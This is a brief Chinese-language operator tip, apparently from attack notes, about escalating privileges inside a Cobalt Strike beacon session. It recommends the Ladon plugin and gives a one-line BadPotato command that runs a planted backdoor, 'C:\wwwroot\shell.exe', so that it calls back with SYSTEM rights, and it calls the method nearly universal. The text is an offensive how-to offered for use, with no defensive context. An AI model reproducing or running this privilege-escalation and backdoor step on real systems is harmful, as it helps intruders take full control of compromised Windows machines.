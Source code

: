 CS官方一键提权太少。
安装插件如Loden(巨龙拉冬)
此时在beacon也可以使用命令
>Ladon badpotato  “C:\wwwroot\shell.exe” 
烂土豆提权用system运行后门新上线就是system权限 基本通杀。
或右键使用其他提权功能。